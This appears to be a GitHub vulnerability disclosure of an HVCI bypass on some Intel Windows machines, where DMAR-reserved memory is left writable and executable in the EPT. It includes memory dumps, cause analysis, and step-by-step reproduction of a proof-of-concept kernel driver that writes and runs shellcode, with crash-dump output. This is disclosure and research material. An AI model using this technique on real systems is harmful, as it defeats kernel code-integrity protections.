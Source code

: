 - [Summary](#summary)
- [Platform and requirements](#platform-and-requirements)
- [Description](#description)
  - [Background and the issue](#background-and-the-issue)
  - [Analysis of the cause](#analysis-of-the-cause)
- [PoC](#poc)
  - [Demo configuration](#demo-configuration)
  - [Steps to repro](#steps-to-repro)
  - [Expected result](#expected-result)
  - [Actual result](#actual-result)
- [References](#references)


# Summary

There can be writable and executable guest physical memory regions under HVCI, and kernel-mode code in the root partition could write and execute arbitrary code in kernel-mode.


# Platform and requirements

- Tested on Windows build 10.0.22621.1928
- Intel hardware models with VT-d enabled
  - The exact conditions to see the issue is unclear. See the [Analysis of the cause](#analysis-of-the-cause) section.
- Ability to perform arbitrary kernel-memory read and write for exploitation in the root partition.


# Description

## Background and the issue

When the HVCI is enabled, the root partition is unable to modify executable memory even with the kernel-mode privileges. This is implemented by enforcing W^X memory permission using SLAT. However, under some configurations, memory permissions are set as W+X for some GPAs, making it possible to write and execute arbitrary code in kernel-mode.

[xps15_dump_ept.txt](./xps15_dump_ept.txt) is dump of SLAT (EPT) configuration taken through a hypervisor debugging session using the hvext[1] debugger extension. See the following GPA ranges:

```
GPA                            PA           Flags
...
  0x6ce51000 -   0x6ce71000 -> Identity     -PVU-6XWR   (1)
...
  0x6cf05000 -   0x6cf85000 -> Identity     -PVU-6XWR   (1)
...
  0x7b000000 -   0x7f800000 -> Identity     ---U-0XWR   (2)
```

1. 0x6ce51000 - 0x6ce70fff and 0x6cf05000 - 0x6cf84fff: marked as `U-6XWR`, indicating user- and kernel-mode executable (`U`, `X`), writable (`W`), readable (`R`), write-back (`6`) memory.
2. 0x7b000000 - 0x7f7fffff: marked as `U-0XWR`, indicating the same as above except being uncacheable (`0`).


## Analysis of the cause

Those regions correspond to the reserved memory region indicated by the DMAR ACPI table[4]. Memory type difference (`6` vs `0`) above appears to be caused by the memory map UEFI reports. The below is an excerpt of output of the `memmap` UEFI shell command taken on the same system.
```
Type       Start            End              # Pages          Attributes
Reserved   000000006B80D000-000000006CF84FFF 0000000000001778 000000000000000F  (1')
...
Reserved   0000000078E00000-000000007F7FFFFF 0000000000006A00 0000000000000000  (2')
```
Notice that (1') has Attributes 0xF, which means it can be any memory type, while (2') has 0x0, which seems to mean "do not access". The complete output is uploaded as [xps15_memmap.txt](./xps15_memmap.txt).

Also a few observations:
- The issue persists regardless of if kernel or hypervisor debugging is enabled.
- The uncacheable W+X region appears to be non-exploitable. Accessing this region immediately caused reset.
- The reserved memory regions are not always marked as W+X.
  - On some models, they are marked as `--0-WR`, only readable, writable memory. 3 out of 7 Intel devices I tested had the W+X ranges. 2 out of those 3 had W+X write-back memory.
  - This is probably related to how UEFI reports those regions through the memory map.


# PoC

The demo below remaps LA of `beep!BeepOpen` onto one of the W+X GPA, write shell-code there, and execute it by calling `Beep` Win32 API.

- A recording of reproduction is on [Youtube](https://youtu.be/JrGI_4HgY4c)
- Source code of PoC is in the [wx](./wx/) directory

The exploit assumes that it knows GPA `0x6ce51000` is W+X and hard-codes this address, and thus, not functional on any other system than the setup described below. This could be improved by parsing the DMAR ACPI table.


## Demo configuration

- Windows build 10.0.22621.1992
- Dell XPS 15 7590 (i9-9980HK)
- HVCI is enabled
- No kernel or hypervisor debugging is enabled
- Test-signing is enabled and secure boot is disabled
    - This is because using my own driver instead of a vulnerable driver is much clearer to demonstrate the issue.
- Livekd[2] is installed


## Steps to repro

1. Check the linear address of `beep!BeepOpen` and its PTE using `livekd`
   1. Start command prompt with the administrator privilege
   2. Run those commands:
      ```
      >livekd
      ...

      0: kd> !pte beep!BeepOpen
                                                VA fffff80050fd1510
      PXE at FFFFFBFDFEFF7F80    PPE at FFFFFBFDFEFF0008    PDE at FFFFFBFDFE001438    PTE at FFFFFBFC00287E88
      contains 000000012870B063  contains 000000005BD3B063  contains 0A00000872DFF863  contains 09000007E9369021
      pfn 12870b    ---DA--KWEV  pfn 5bd3b     ---DA--KWEV  pfn 872dff    ---DA--KWEV  pfn 7e9369    ----A--KREV
      ```
   3. Take note of the linear addresses, ie:
      - `fffff80050fd1510` for `beep!BeepOpen`
      - `FFFFFBFC00287E88` for its PTE
2. Update and compile the PoC file. This step can be done on other machine
   1. Open the `wx.sln` on Visual Studio 2022
   2. Update those lines with what we noted at step 1.3
      ```cpp
      auto addrOfBeepOpen = (void*)0xfffff80050fd1510;
      auto pte = (Pte*)0xFFFFFBFC00287E88;
      ```
   3. Build the solution for x64 / Debug
   4. If needed, copy over the compiled `wx.sys` and `beep.exe` into the target system
3. Run the PoC
   1. Optionally, start DbgView[3] with the administrator privileges and enable "Capture Kernel"
   2. Run the following command on the command prompt with the administrators privileges
      ```
      > sc create wx type= kernel binPath= <full_path_to_wx.sys>
      [SC] CreateService SUCCESS
      ```
   3. Load the `wx.sys` and attempt to write executable code
      ```
      > sc start wx
      [SC] StartService FAILED 995:

      The I/O operation has been aborted because of either a thread exit or an application request
      ```
      The error message is expected. If DbgView is running, it should show messages like this:
      ```
      Remapped LA FFFFF80050FD1510 to shell code at GPA 6ce51
      Run the beep.exe to execute shell code
      DriverEntry failed 0xc0000120 for driver \REGISTRY\MACHINE\SYSTEM\ControlSet001\Services\wx
      ```
   4. Run `beep.exe` and attempt to execute generated code


## Expected result

Bug check occurs at step 3.3, pointing `wx.sys` as an offender. The root partition is unable to write code.


## Actual result

Bug check occurs at step 3.4, pointing `beep.sys` as an offender. The crash dump shows all general purpose registers are set to 4141414141414141, indicating the root partition wrote and executed code in kernel-mode.

```
...
CONTEXT:  ffff810a2b96e910 -- (.cxr 0xffff810a2b96e910)
rax=4141414141414141 rbx=4141414141414141 rcx=4141414141414141
rdx=4141414141414141 rsi=4141414141414141 rdi=4141414141414141
rip=fffff80050fd1544 rsp=ffff810a2b96f338 rbp=4141414141414141
 r8=4141414141414141  r9=4141414141414141 r10=4141414141414141
r11=4141414141414141 r12=4141414141414141 r13=4141414141414141
r14=4141414141414141 r15=4141414141414141
iopl=0         nv up ei pl zr na po nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00050246
Beep!BeepOpen+0x34:
Page 6ce51 not present in the dump file. Type ".hh dbgerr004" for details
Page 6ce51 not present in the dump file. Type ".hh dbgerr004" for details
fffff800`50fd1544 ??              ???
...
```


# References

1. https://github.com/tandasat/hvext
2. https://learn.microsoft.com/en-us/sysinternals/downloads/livekd
3. https://learn.microsoft.com/en-us/sysinternals/downloads/debugview
4. https://www.intel.com/content/www/us/en/content-details/774206/intel-virtualization-technology-for-directed-i-o-architecture-specification.html
